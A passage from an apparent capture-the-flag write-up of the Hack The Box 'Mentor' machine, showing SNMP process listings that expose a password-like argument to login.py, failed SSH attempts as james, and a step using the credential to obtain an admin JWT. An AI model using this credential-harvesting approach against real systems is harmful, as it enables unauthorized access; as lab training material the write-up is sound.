 ```bash
hax-13@ZARB:~/Documents/ctfs/htb/medium/Mentor-10.10.11.193/exploit$ cat snmp-internal.txt |grep login
iso.3.6.1.2.1.25.4.2.1.2.908 = STRING: "systemd-logind"
iso.3.6.1.2.1.25.4.2.1.2.1697 = STRING: "login.sh"
iso.3.6.1.2.1.25.4.2.1.2.2127 = STRING: "login.py"
iso.3.6.1.2.1.25.4.2.1.4.908 = STRING: "/lib/systemd/systemd-logind"
iso.3.6.1.2.1.25.4.2.1.5.1697 = STRING: "/usr/local/bin/login.sh"
iso.3.6.1.2.1.25.4.2.1.5.2127 = STRING: "/usr/local/bin/login.py kj23sadkj123as0-d213"
iso.3.6.1.2.1.25.6.3.1.2.478 = STRING: "login_1:4.8.1-2ubuntu2.1_amd64"
```

> Tried them on ssh \[Didn't Work]

```bash
hax-13@ZARB:~/Documents/ctfs/htb/medium/Mentor-10.10.11.193/exploit$ ssh james@mentorquotes.htb 
The authenticity of host 'mentorquotes.htb (10.10.11.193)' can't be established.
ED25519 key fingerprint is SHA256:fkqwgXFJ5spB0IsQCmw4K5HTzEPyM27mczyMp6Qct5Q.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'mentorquotes.htb' (ED25519) to the list of known hosts.
james@mentorquotes.htb's password: 
Permission denied, please try again.
james@mentorquotes.htb's password: 
Permission denied, please try again.
james@mentorquotes.htb's password: 
james@mentorquotes.htb: Permission denied (publickey,password).

```

> Authorize using these credentials.

<figure><img src="../.gitbook/assets/Pasted image 20230110202744.png" alt=""><figcaption><p>ADMIN JWT</p></figcaption></figure>
